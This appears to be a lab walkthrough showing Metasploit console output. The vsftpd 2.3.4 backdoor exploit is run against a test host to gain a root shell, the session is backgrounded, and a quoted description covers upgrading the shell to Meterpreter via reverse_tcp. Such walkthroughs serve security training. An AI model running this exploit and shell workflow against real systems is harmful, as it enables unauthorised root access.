 
```
msf5 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```

```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 192.15.82.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.15.82.3:21 - USER: 331 Please specify the password.
[+] 192.15.82.3:21 - Backdoor service has been spawned, handling...
[+] 192.15.82.3:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.15.82.2:45985 -> 192.15.82.3:6200) at 2023-02-01 03:32:54 +0000

/bin/bash -i
bash: cannot set terminal process group (10): Inappropriate ioctl for device
bash: no job control in this shell
root@victim-1:~/vsftpd-2.3.4# whoami
whoami
root
```

```
root@victim-1:~/vsftpd-2.3.4# ^Z
Background session 1? [y/N]  y
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.15.82.2:45985 -> 192.15.82.3:6200 (192.15.82.3)
```

[Shell to Meterpreter Upgrade](https://www.rapid7.com/db/modules/post/multi/manage/shell_to_meterpreter/)

Shell to Meterpreter Upgrade

This module attempts to upgrade a command shell to meterpreter. The shell platform is automatically detected and the best version of meterpreter for the target is selected. Currently meterpreter/reverse_tcp is used on Windows and Linux, with 'python/meterpreter/reverse_tcp' used on all others.

Shell 到 Meterpreter 升级
